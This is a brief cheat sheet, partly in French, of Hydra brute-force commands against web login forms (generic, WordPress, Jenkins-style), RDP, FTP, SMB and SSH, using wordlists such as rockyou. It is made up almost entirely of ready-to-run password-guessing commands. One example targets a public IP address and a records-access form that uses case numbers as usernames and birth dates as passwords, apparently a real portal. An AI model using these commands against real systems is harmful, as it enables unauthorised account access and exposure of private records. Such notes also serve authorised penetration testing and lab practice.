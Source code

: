 # Hydra

## Web

hydra -l login -P ./dico.txt IP http-post-form "/page/login.html?lan=fr:parametre1=^USER^&parametre2=^PASS^:F=indique que failed"

hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

### exemple: 

hydra -s 443 -l [Numero_dossier] -p [Date_de_naissance] 46.218.155.4 https-post-form
"/acces_dossier/acces_dossier.php:accession_number=^USER^&date_naissance=^PASS^&use_sessio
n=1&largeur_ecran=1920&hauteur_ecran=922&saveDevice=Web:Erreur"

### exemple2:

hydra -l admin -P ../rockyou.txt -s 8080 127.0.0.1 http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:F=Invalid'

## variante Web: burp, ffuf

## rdp

hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>

## ftp

hydra -t 1 -v -L ./Dico.txt -P ./Dico.txt ftp://10.10.10.158

## smb:

hydra -v -L ./Dico.txt -P ./Dico.txt 10.10.10.158 smb

### SSH

hydra -l user -P pass.txt -t 10 10.10.10.10 ssh -s 22

hydra -l root -P /usr/share/wordlists/metasploit/mirai_pass.txt ssh://127.0.0.1:2222
